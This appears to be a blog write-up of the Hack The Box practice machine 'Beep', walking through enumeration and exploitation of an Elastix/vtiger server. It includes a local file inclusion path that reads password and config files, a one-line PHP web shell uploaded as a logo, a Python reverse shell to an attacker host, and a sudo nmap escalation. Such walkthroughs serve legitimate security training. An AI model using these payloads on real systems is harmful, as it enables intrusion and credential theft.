 ```yaml
---
title: Beep
date: 2020-12-05 00:06:06 +/-TTTT
categories: [CTF, hackthebox]
tags: [lfi, sudo]
---
```


![infocar](/assets/htb/beep/infocard.png)

beep is an easy box that has 20 points. box has a lfi vulnerability which gives us creds to login. then we use file upload vuln to get a shell. privs is done by using sudo.

## Enumeration

as always we start with Nmap

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-03 08:13 EST
Nmap scan report for 10.10.10.7
Host is up (0.62s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES USER UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) AUTH-RESP-CODE PIPELINING STLS TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-03T14:18:21+00:00; +1h01m04s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h01m03s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.37 seconds
```

Nmap shows various services are open. Let's start with the webpage.
there is an Elastix login page.

![homepage](/assets/htb/beep/homepage.png)

tried some default password like elastix:elastix admin:admin , admin:password, admin:elastix but none of them are corrected. also tried to sqli but it's not vulnerable.

Let's continue our enumeration with directory scanning.
use ffuf to brute-force found one directory `vtigercrm` . which have another login page. 

![vtiger](/assets/htb/beep/vtiger.png)

also webmin is hosted on port 10000

![webmin](/assets/htb/beep/webmin.png)

Let's search for an exploit for Elastix and webmin.

![ex-webmin](/assets/htb/beep/ex-webmin.png)

![ex-elastic](/assets/htb/beep/ex-elastix.png)


Local file inclusion in elastix looks interesting let's try this.

so we get lfi by using ` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`

by using payload we got `/etc/passwd` file.

![lfi](/assets/htb/beep/lfi.png)

next we try to find password in `conf` file. 

Elastix store its password in `/etc/elastix.conf` file. 

![creds](/assets/htb/beep/creds.png)

## Gaining shell

we got creds for admin, Cyrus, and the MySQL root user.
tried these creds to login to MySQL but it doesn't allow my IP to connect to mysql server.

 I also tried ssh using creds but it failed.

next, I tried creds on Elastix,Webmin, and vtiger. it works on Elastix and vtiger cms.
I tried to get a reverse shell from elastix but I cant find any way to upload shell.so I move on vtiger . 

after some enumaration i found that we can upload logo image in `admin >> settings >> Company Details`  .

![logo](/assets/htb/beep/logo.png)

lets craft php reverse shell.
create php cmd execution payload'
`<?php system($_GET["cmd"]); ?>` and upload it .

view source code to find out where the is file uploaded.

![shellpath](/assets/htb/beep/shellpath.png)

navigate that file and now I can execute cmd.

![cmdexec](/assets/htb/beep/cmdexe.png)

using python got revershell on the box.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![reversehll](/assets/htb/beep/revshell.png)

there are two user fenis and spamfilter . in fenis home directory we got `user.txt`

![user](/assets/htb/beep/user.png)

## Getting root

root privs is easy on this box. we can run a bunch of programs as root.

![sudo](/assets/htb/beep/sudo.png)

l use Nmap to get root shell.

![root](/assets/htb/beep/root.png)
